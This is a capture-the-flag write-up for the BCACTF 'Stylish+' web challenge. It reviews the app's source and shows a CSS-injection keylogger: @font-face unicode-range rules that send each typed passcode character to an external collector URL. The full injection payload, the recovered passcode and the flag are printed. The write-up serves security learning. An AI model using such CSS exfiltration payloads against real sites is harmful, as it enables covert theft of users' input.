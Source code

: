 ```yaml
---
title: Stylish+
date: 2022-06-06 10:00:00 +0200
categories: [web]
tags: [bcactf3]
toc: false
---
```


## Overview
Stylish+ is a **Fastify** web application that allows you to create CSS themes and present them to a bot. You also get the source code of the application to review it and identify any security vulnerabilities.

![](/assets/img/stylish_landing_page.png#center)
## Vulnerability
Looking at `package.json` file for deprecated libraries with known security vulnerabilities and also other config files for misconfigurations - has led to nothing.
After toying with the website and clicking every button - a POST request with the following payload is sent:
``` json
{
	"bodyBG":"white",
	"bodyFG":"black",
	"accentBG":"black",
	"accentFG":"white"
}
```
Let's see how the data is processed in `server/src/index.ts`.
``` javascript

app.post<{ Body: Static<typeof Theme> }>("/api/report", async (request, reply) => {
    // Generate an ID
    const id = cuid();

    // Store the theme
    themes.set(id, request.body);

    let context: BrowserContext | undefined;
    let page: Page | undefined;

    try {
        context = await (await browser).createIncognitoBrowserContext();
        page = await context.newPage();
        await page.setCacheEnabled(false);
        await page.goto(`http://localhost:3000/?theme=${id}`, { waitUntil: "load", timeout: 3000 });
        await page.click("#open-admin-panel");

        // Wait a bit to give everything some time to load
        await new Promise(resolve => setTimeout(resolve, 1000));

        const passcode = thePasscode;
        for (let i = 0; i < passcode.length; i++) {
            const char = passcode.charAt(i);
            const id = cuid();
            await page.evaluate(`
            document.querySelectorAll("#keypad > button").forEach(button => {
                if (button.innerText === "${char}") {
                    button.id = "${id}";
                }
            })
            `);
            await page.click(`#${id}`);
            await new Promise(resolve => setTimeout(resolve, 300));
        }

        const submitID = cuid();
        await page.evaluate(`
        document.querySelectorAll("#keypad > button").forEach(button => {
            if (button.innerText === "Submit") {
                button.id = "${submitID}";
            }
        })
        `);
        await page.click(`#${submitID}`);
        await new Promise(resolve => setTimeout(resolve, 3000));

        reply.send("sure");
    } catch (e) {
        console.error(e);
        throw e;
    } finally {
        // Clean up
        themes.delete(id);
        await page?.close();
        await context?.close();
    }
});
```
The body is saved inside a themes map for a quick visit from the bot and then deleted. However, the bot not only visits the page, but also enters its secret passcode - we should remember that.
In `public/src/main.ts` we can see that the theme is written inside a style tag.
``` javascript
function setTheme({bodyBG, bodyFG, accentBG, accentFG}: Theme) {
    theme = {bodyBG, bodyFG, accentBG, accentFG};
    document.getElementById("style")!.innerText = `
        :root {
            --body-bg: ${bodyBG};
            --body-fg: ${bodyFG};
            --accent-bg: ${accentBG};
            --accent-fg: ${accentFG};
        }
    `;
}
```
So we have controll over the html `<style>` tag - great, but how do we abuse that? Since this is a CTF challenge we have to see where the flag is hidden in the first place.
In `server/src/index.ts` there is another endpoint which looks as follows:
``` javascript
app.post<{ Body: Static<typeof FlagRequest> }>("/api/flag", {
    schema: {
        body: FlagRequest,
    },
}, (request, reply) => {
    const { passcode } = request.body;
    if (passcode === (thePasscode ?? "")) {
        console.log("Flag get!");
        reply.send(flag ?? "yell at the problem author to fix this");
    } else {
        reply.status(403).send("no");
    }
});
```
OK, so we have to figure out how to get our hands on the passcode - as we have already seen the bot that visits our theme enters the passcode. So how do we steal it?
It is pretty simple - with the `:focus` selector we can load an image from our server and we should be good to go, right?
This would be far too easy - so the author of the challenge gave us a pretty big obstacle - the the order of the buttons is randomized on every visit.
``` javascript
const buttons = [
	"D", "E", "F",
	"A", "B", "C",
	"7", "8", "9",
	"4", "5", "6",
	"1", "2", "3",
	"Reset", "0", "Submit",
];
const indices = [...Array(buttons.length).keys()];

for (let i = 0; i < indices.length; i++) {
	const j = Math.floor(Math.random() * indices.length);
	const temp = indices[i];
	indices[i] = indices[j];
	indices[j] = temp;
}
--- snipped ---
css += `
	#keypad button:nth-child(${i + 1}) {
		order: ${indices[i]};
	}
`;
--- snipped ---
```
## Exploitation
After researching the topic and readig through [tons of drafts](https://drafts.csswg.org/selectors/). I thought I would have to give up because it didn't seem to be possible to create a selector for a button with a specific letter or number.
But wait - why reinvent the wheel when it already exists - the idea of a CSS keylogger is not new and has been around for over 10 years! So I changed my research on this topic and found tons of new input to try out - for example the [@font-face rule](https://developer.mozilla.org/en-US/docs/Web/CSS/@font-face).
This rule set has a unique property called `unicode-range` which allows us to load a remote font and use only a range of chracters from it - this means that if we create this rule set for each letter and number of the passcode, we can build our keylogger - how exciting ^^
``` css
@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=A), local(Impact); unicode-range: U+41; } // A
@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=B), local(Impact); unicode-range: U+42; } // B
@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=C), local(Impact); unicode-range: U+43; } // C
...
#keypad button:focus { font-family: x, 'Comic sans ms'; }
```
Our payload now looks like this:
``` json
{
    "bodyBG":"white",
    "bodyFG":"orange",
    "accentBG":"green",
    "accentFG":"blue;}@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=A), local(Impact); unicode-range: U+41; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=B), local(Impact); unicode-range: U+42; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=C), local(Impact); unicode-range: U+43; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=D), local(Impact); unicode-range: U+44; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=E), local(Impact); unicode-range: U+45; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=F), local(Impact); unicode-range: U+46; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=0), local(Impact); unicode-range: U+30; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=1), local(Impact); unicode-range: U+31; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=2), local(Impact); unicode-range: U+32; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=3), local(Impact); unicode-range: U+33; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=4), local(Impact); unicode-range: U+34; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=5), local(Impact); unicode-range: U+35; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=6), local(Impact); unicode-range: U+36; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=7), local(Impact); unicode-range: U+37; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=8), local(Impact); unicode-range: U+38; }@font-face { font-family: x; src: url(https://[redacted].x.pipedream.net?char=9), local(Impact); unicode-range: U+39; }#keypad button:focused { font-family: x, 'Comic sans ms';"
}
```
So let's just send it and find out if it works
## Flag
And it does work, as you can see.
![](/assets/img/stylish_requestbin.png#right)

I had to repeat this process for a few times until I had the working passcode because the bot clicks on a button ever 300ms the resources took sometimes longer and fucked the order but in the end I had the working passcode: 4D7EA2950FC8B613

Sending it to the flag endpoint reveals the flag.
> bcactf{insert_absolutely_bad_css_pun_here_1fAZUo7ZgiCqiQkBkwPW0A}

٩(◕‿◕｡)۶
